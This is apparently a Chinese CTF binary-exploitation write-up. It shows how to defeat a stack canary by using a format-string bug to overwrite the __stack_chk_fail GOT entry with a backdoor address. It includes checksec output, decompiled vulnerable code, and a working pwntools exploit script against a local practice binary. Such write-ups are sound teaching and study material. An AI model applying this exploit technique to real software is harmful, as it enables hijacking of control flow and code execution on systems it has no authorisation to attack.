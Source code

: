 ### 劫持__stack_chk_fail函数

#### 原理

在开启canary保护的程序中，如果canary不对，程序会转到**stack_chk_fail函数执行，**stack_chk_fail函数是一个普通的延迟绑定函数，可以通过修改GOT表劫持这个函数。利用方式就是通过格式化字符串漏洞来修改GOT表中的值。

#### 条件

存在格式化字符串漏洞

#### 例题

checksec一波：

```
dililearngent@dililearngent-virtual-machine:~/Desktop/CTF/pwn/stack/canary$ checksec bin3
[*] '/home/dililearngent/Desktop/CTF/pwn/stack/canary/bin3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

IDA分析一波：

存在格式化字符串漏洞

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char format; // [rsp+0h] [rbp-60h]
  unsigned __int64 v5; // [rsp+58h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  init(*(_QWORD *)&argc, argv, envp);
  read_n((__int64)&format, 0x58u);
  printf(&format, 88LL);
  return 0;
}
```

思路：先通过格式化字符串漏洞把__stack_chk_fail函数对应的got表中的值修改成后门函数地址，在通过栈溢出触发\_\_stack_chk_fail函数的执行从而触发后门函数

脚本如下：

```python
#-*- coding:utf-8 -*-
from pwn import *
context(os='linux',arch='amd64',log_level='debug')

p = process('./bin3')
e = ELF('./bin3')

system_addr = 0x40084e
stack_chk_fail_got_addr = e.got['__stack_chk_fail']

payload = 'a'*5 + '%' + str(system_addr&0xffff-5) + 'c%8$hn' + p64(stack_chk_fail_got_addr) + 'a'*100

p.sendlineafter('It\'s easy to PWN',payload)
p.interactive()
```
